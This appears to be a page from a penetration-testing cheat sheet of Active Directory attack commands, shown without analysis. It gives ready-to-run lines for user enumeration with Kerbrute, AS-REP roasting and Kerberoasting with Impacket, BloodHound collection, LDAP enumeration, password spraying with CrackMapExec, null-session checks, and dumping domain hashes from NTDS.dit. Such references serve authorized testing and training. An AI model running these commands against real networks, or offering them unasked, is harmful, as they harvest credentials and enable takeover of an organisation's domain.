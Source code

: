 ### User Enumeration with Kerbrute
Enumerate domain users using Kerbrute.
```bash
kerbrute userenum --dc dc.target.com -d target.com /usr/share/wordlists/SecLists/Usernames/Names/names.txt
```

### ASREPRoasting with Impacket
Exploit ASREPRoast vulnerability to get user hashes.
```bash
impacket-GetNPUsers target.com/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
```

### Kerberoasting with Impacket
Exploit Kerberoast vulnerability to get service account hashes.
```bash
impacket-GetUserSPNs target.com/username:password -outputfile kerberoast_hashes.txt
```

### BloodHound Data Collection
Collect data for BloodHound analysis.
```bash
bloodhound-python -d target.com -u username -p password -c All -ns 10.10.10.x
```

### LDAP Enumeration with ldapsearch
Enumerate LDAP for user objects.
```bash
ldapsearch -x -h 10.10.10.x -D "cn=binduser,cn=Users,dc=target,dc=com" -w password -b "dc=target,dc=com" "(objectClass=user)"
```

### Password Spraying with CrackMapExec
Attempt password spraying against SMB.
```bash
crackmapexec smb 10.10.10.x -u users.txt -p 'Password123' --continue-on-success
```

### Check Null Sessions
Check for SMB null sessions.
```bash
crackmapexec smb 10.10.10.x -u '' -p ''
```

### Extract NTDS.dit with Impacket
Dump domain controller hashes from NTDS.dit.
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

# SQL Injection
